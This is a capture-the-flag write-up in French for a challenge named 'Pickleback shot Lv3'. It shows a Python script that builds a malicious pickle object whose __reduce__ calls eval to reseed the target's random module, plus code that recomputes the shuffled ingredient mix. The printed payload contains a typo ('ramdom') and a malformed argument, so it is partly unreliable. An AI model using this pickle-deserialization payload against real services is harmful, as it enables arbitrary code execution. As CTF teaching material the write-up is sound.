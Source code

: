 # Pickleback shot Lv3

## Write-up (français)

Dans le code fourni, il est observable que la liste des différents ingrédients est mélangée, et par la suite, de nouveaux ingrédients sont ajoutés à la liste.

Dans un premier temps, nous devons trouver un moyen de trier la liste de manière non aléatoire, mais de manière contrôlée. Pour ce faire, nous devons modifier la graine (seed) du module 'random' afin d'obtenir un contrôle sur le processus de mélange.

Après avoir mené quelques recherches, nous constatons qu'un code de cette forme nous permet d'atteindre notre objectif :
```py
import pickle
import base64
from typing import Tuple

class SetSeed:
    def __reduce__(self) -> Tuple:
        return (eval, "ramdom.seed(10)")

if __name__ == '__main__':
    pickled = pickle.dumps(SetSeed())
    print(base64.urlsafe_b64encode(pickled))
```

Cela mélange les ingrédients dans l'ordre suivant (pour une seed de 10):
```py
['steak', 'sauce', 'bread', 'olive', 'yeast', 'basil', 'onion', 'melon', 'peach', 'lemon', 'honey', 'flour', 'grape', 'apple', 'sugar', 'nutty', 'beans', 'mango', 'cream']
```

On peut donc déterminer ce que donne la préparation actuelle :
```py
def mix(s1: str, s2: str) -> str:
    if len(s1) != len(s2):
        raise ValueError('Invalid input')
    
    result = ""
    for c1, c2 in zip(s1, s2):
        r = 0
        
        for i in range(0, 8):
            bc1 = (ord(c1) >> i) & 1
            bc2 = (ord(c2) >> i) & 1
            
            bc_result = (bc1 == 0 or bc2 == 1) and (bc2 == 0 or bc1 == 1)
            
            r += (bc_result << i)
        
        result += chr(r)
    
    return result

ingredients = ['steak', 'sauce', 'bread', 'olive', 'yeast', 'basil', 'onion', 'melon', 'peach', 'lemon', 'honey', 'flour', 'grape', 'apple', 'sugar', 'nutty', 'beans', 'mango', 'cream']


preparation = ingredients[0]
for ingredient in ingredients[1:]:
    preparation = mix(preparation, ingredient)
    
print(preparation) # qsnr`
```